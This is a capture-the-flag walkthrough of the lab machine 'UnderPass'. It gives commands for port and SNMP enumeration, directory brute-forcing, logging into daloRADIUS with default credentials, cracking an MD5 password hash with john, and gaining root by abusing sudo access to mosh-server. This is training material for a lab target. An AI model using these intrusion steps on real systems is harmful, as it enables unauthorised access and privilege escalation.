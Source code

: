 ```yaml
---
title: UnderPass
published: true
layout: post
---
```


<br />

---------------
Underpass is an Easy Linux machine starting with a default Apache Ubuntu page. This leads the attacker to enumerate the machine's UDP ports for alternative attack vectors. The attacker can enumerate SNMP and discover that `Daloradius` is running on the remote machine, and the operators panel can be accessed using the default credentials. Inside the panel, the password hash for the user `svcMosh` is stored, and it's crackable. Then, the attacker can log in to the remote machine using SSH with the credentials they have obtained. The user `svcMosh` is configured to run `mosdh-server` as `root`, which allows the attacker to connect to the server from their local machine and interact with the remote machine as the `root` user. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/UQpAmApVGis?si=KZPyhrah2peI2Q-T" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 2 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sT 10.10.11.48 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.48 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **3 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **161/udp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sU 10.10.11.48 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.11.48 -p 161 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

These services are:
+ **22/tcp OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)**
+ **80/tcp Apache httpd 2.4.52 ((Ubuntu))**
+ **161/udp SNMPv1 server; net-snmp SNMPv3 server (public)**

<br />

There is an interesting message in the **UDP scan**:<br />
![](/assets/UnderPass/1.png)
<br />
<br />

We have a **hostname** and a **technology "daloradius"**, so let's add the hostname to our /etc/hosts file now and check what is daloradius in the next section:

```bash
echo "10.10.11.48 UnDerPass.htb" | sudo tee --append /etc/hosts
```
<br />

------
<br />
### Foothold

The first thing I did was inspect the SNMP service:

```bash
snmpwalk -v1 -c "public" 10.10.11.48 | grep STRING
```

![](/assets/UnderPass/2.png)
<br />
<br />

There is an email that may be handful later. Now searching for daloradius, we can find some vulnerabilities that doesn't work, but we find the daloradius main directory that may be relevant:<br />
![](/assets/UnderPass/3.png)
<br />
<br />

Let's delve deeper in the machine, searching for more sites, as the previous ones don't exist:

```bash
feroxbuster --url http://UnDerPass.htb/daloradius -r -x php --threads 25 -d 0 -o feroxbuster_dir_and_file_enum_80.txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --filter-status 404
```

![](/assets/UnderPass/4.png)
<br />
<br />

There are multiple sites, but some very interesting, **two login sites and one INSTALL document**. It seems that the user login site is for clients and the operators login site is for administrators, but the relevant information is on the INSTALL document:<br />
![](/assets/UnderPass/5.png)
<br />
<br />

We have credentials, so let's try them in both sites:<br />
![](/assets/UnderPass/6.png)
<br />
<br />

We logged in using the **operators site**, and we can see that there is just one user in the application, let's check it:<br />
![](/assets/UnderPass/7.png)
<br />
<br />

We got credentials, however the password seems to be hashed, let's identify the hash and crack it:

```bash
hashid 412DD4759978ACFCC81DEAB01B382403
echo "412DD4759978ACFCC81DEAB01B382403" > svcMosh_hash.txt
john svcMosh_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```

![](/assets/UnderPass/8.png)
<br />
<br />

We cracked the hash! However this credentials didn't work in the login sites, so I tried them in SSH:

```bash
ssh svcMosh@10.10.11.48
```

![](/assets/UnderPass/9.png)
<br />
<br />

------
<br />
### Privilege Escalation

Enumerating our permissions, we found something interesting:

```bash
sudo -l
```

![](/assets/UnderPass/10.png)
<br />
<br />

**Mosh** is known as the mobile shell, a **replacement for SSH**, and we can use it with root privileges, so I searched for privilege escalation techniques, and this is what I found:<br />
![](/assets/UnderPass/11.png)
<br />
<br />

It seems that we can launch a service listening for connections, so let's do it:

```bash
sudo /usr/bin/mosh-server 0.0.0.0
```

![](/assets/UnderPass/12.png)
<br />
<br />

Let's finally connect to the listener:

```bash
sudo apt install mosh
export MOSH_KEY=UC8a+83VAFJjSAqbeo62sQ
mosh-client 10.10.11.48 60001
```

![](/assets/UnderPass/13.png)
<br />
<br />
